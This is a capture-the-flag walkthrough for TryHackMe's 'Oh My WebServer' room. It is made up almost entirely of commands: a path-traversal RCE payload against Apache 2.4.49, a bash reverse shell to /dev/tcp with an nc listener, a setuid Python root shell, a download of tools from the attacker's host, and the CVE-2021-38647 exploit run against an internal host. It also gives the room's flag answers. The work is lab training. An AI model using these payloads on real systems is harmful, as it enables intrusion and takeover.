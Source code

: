 # <div align="center">[Oh My WebServer](https://tryhackme.com/r/room/ohmyweb)</div>
<div align="center">Can you root me?</div><br>

<div align="center">
<img src="https://github.com/user-attachments/assets/2f7ecf5b-ab91-4a12-bfd5-bcd55e359857" height="200"></img>
</div>

## Task 1. oh-My-Webserver

### What is the user flag?

* ```nmap -sSCV <IP>```
* ```searchsploit Apache 2.4.49```
* ```https://www.exploit-db.com/exploits/50383```
* ```curl -s --path-as-is -d "echo Content-Type: text/plain; echo; /etc/passwd" http://<IP>/cgibin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"```
* ```curl 'http://<IP>/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' --data 'echo Content-Type:text/plain; echo; bash -i >& /dev/tcp/<IP>/4444 0>&1'```
* #### [Exploit](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Oh-My-WebServer/Exploit.sh)
* ```nc -lvnp 4444```
* ```ls -la```
* ```ifconfig```
* ```python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'’```
* ```cat /root/user.txt```
```
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```
### What is the root flag?
* ```curl http://<my_own_IP>/nmap -o /tmp/nmap```
* ```./nmap -sSCV -p- 172.17.0.1```
* ```https://github.com/AlteredSecurity/CVE-2021-38647```
* ```python3 CVE-2021-38647.py -t 172.17.0.1 -c 'whoami;pwd;id;hostname;uname -a;cat /root/root*'```
* #### [CVE-2021-38647](https://github.com/Esther7171/THM-Walkthroughs/blob/main/Room/Oh-My-WebServer/CVE-2021-38647.py)
```
THM{7f147ef1f36da9ae29529890a1b6011f}
```
### Done 🙂
